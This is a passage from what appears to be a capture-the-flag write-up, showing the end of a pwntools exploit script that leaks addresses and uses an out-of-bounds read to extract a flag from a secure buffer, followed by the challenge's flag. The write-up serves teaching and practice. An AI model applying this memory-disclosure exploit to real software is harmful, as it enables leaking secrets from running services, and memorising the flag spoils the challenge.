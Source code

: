 ```python
    leak("v3 (secure buffer)", hex(v3))
    leak("buf (user buffer)", hex(buf))
    opt2_load_flag()
    want = (v3 - buf) + 0x80
    log.info(f"Attempting OOB read of {want:#x} bytes to cover v3 region…")
    dump = opt3_read_log(want)
    off = v3 - buf
    flag_part = dump[off:off+0x64]
    log.success(f"Extracted bytes at offset {off:#x} (candidate flag): {flag_part!r}")
    leak("ELF base address", hex(elf.address)) if elf.address else None
    leak("Libc base address", hex(libc.address)) if libc.address else None
    io.interactive() if not args.NOINTERACT else None

if __name__ == '__main__':
    global io
    for i in range(1):
        try:
            exploit(i)
        except Exception as e:
            print(f"Error occurred: {e}")
        io.close()
```

### Flag

`SCH25{__💙__💙__💙__💙__💙__💙__💙__}`

# Pwn - asr

## Introduction 
